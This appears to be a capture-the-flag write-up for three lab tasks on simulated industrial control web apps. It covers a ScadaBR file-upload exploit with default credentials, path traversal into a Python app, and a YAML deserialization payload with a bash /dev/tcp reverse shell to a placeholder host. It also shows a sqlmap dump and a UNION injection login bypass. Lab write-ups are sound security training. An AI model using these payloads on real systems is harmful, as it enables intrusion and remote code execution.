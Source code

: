 ### Task 10: Web
+ Scan port <IP> : 
22,80,5901,8080
```
8080/tcp open  http    syn-ack ttl 62 Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: ScadaBR CTF
| http-methods: 
|   Supported Methods: GET HEAD POST PUT DELETE OPTIONS
|_  Potentially risky methods: PUT DELETE
```
+ Access port 8080 --> ScadaBR 
+ Login default credential "admin:admin"
```
searchsploit ScadaBR 
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
ScadaBR 1.0 - Arbitrary File Upload (Authenticated) (1)              | windows/webapps/49734.py
ScadaBR 1.0 - Arbitrary File Upload (Authenticated) (2)              | linux/webapps/49735.py
--------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
``` 

+ Download file python (2) --> Run and get the shell 
+ Flag in /var/lib/tomcat7/root.txt
--> Get flag `THM{rce_archieved_through_script_injection}`

### Task 11:
+ Access port 8080 --> We find the feature /log/view has the vuln "File Path Traversal".
![alt text](image.png)

+ With Path Traversal we can read sensitive file "opt/hmi/update.py" and "opt/hmi/app.py"
+ We've known website is build by Python and run Nginx server.
+ Read `app.py` --> We found that we can use the `/config/update` endpoint to upload a malicious YAML configuration that may lead to RCE.
```
@app.route('/config/update', methods=['GET','POST'])
def config_update():
    if request.method == 'POST':
        sig = request.headers.get('X-FTW','')
        if sig != app_config['SIGNATURE']:
            return 'Forbidden', 403
        if request.content_type != 'application/x-yaml':
            return 'Unsupported Media Type', 415
        data = request.data
        with open(os.path.join(APP_ROOT, 'config.yaml'), 'wb') as f:
            f.write(data)
        log('Configuration updated', 'app')
        subprocess.Popen(['sudo', 'python3', os.path.join(APP_ROOT, 'update.py')])
        return 'Configuration applied', 200
    return render_template('update.html')
```

+ Read `update.py` :
```python
# /opt/hmi/update.py
#!/usr/bin/env python3
import os
import time
import yaml

LOG = '/opt/hmi/logs/loader.log'

def log(msg):
    ts = time.strftime('%Y-%m-%dT%H:%M:%S')
    with open(LOG, 'a') as f:
        f.write(f"{ts} {msg}\n")

log('Config loader started')

try:
    cfg = yaml.load(open('/opt/hmi/config.yaml','r'), Loader=yaml.UnsafeLoader)
    log(f"Applying config: {cfg}")
    time.sleep(1)
    log('Config applied successfully')
except Exception as e:
    log(f"Error applying config: {e}")
```
--> The vuln in the func `yaml.load()` to input untrusted data and `yaml.UnsafeLoader` load untrusted data --> spawn the shell.
+ Create Yaml Payload:

```bash
dummy: !!python/object/apply:os.system ["bash -c 'bash -i >& /dev/tcp/IP_Machine/Port_machine 0>&1 &'"]
PLCS:
  - id: PLC-101
    ip: 192.168.10.11
  - id: PLC-102
    ip: 192.168.10.12
SENSORS:
  - name: FlowRate
    unit: L/s
  - name: Pressure
    unit: bar
SIGNATURE: "secr3tFTW192d2390"
```
+ Note: We read file /opt/hmi/config.yaml to get the `PLCS` and `SIGNATURE` .

+ Upload payload to /config/update, we need to modify the Headers `Content-Type` and add `X-FTW` to verify payload.
+ Open netcat to capture the shell:

![alt text](image-1.png)
--> Get the flag.

### Task 35:
+ Scan ports we have port 80 and 22.
+ Access port 80 --> Page login 
+ Try test SQLi with param `username` --> Get the error SQL

![alt text](image-2.png)

+ Using SQL map to exploit
```
sqlmap -r ~/Documents/request.txt --dbms=mysql -p username --level=4 --risk=3 --dump --threads=10
```
We dump credential:

![alt text](image-3.png)

![alt text](image-4.png)

+ We didn't have to crack the hash, we had to use the SQL injection and UNION a fake user. We back to the page login, we could do 
`username='UNION SELECT 1,admin,[any sha256 hash]` and then pass the original unhashed `password` which chose in the password field.
--> Login successfull and get the Flag.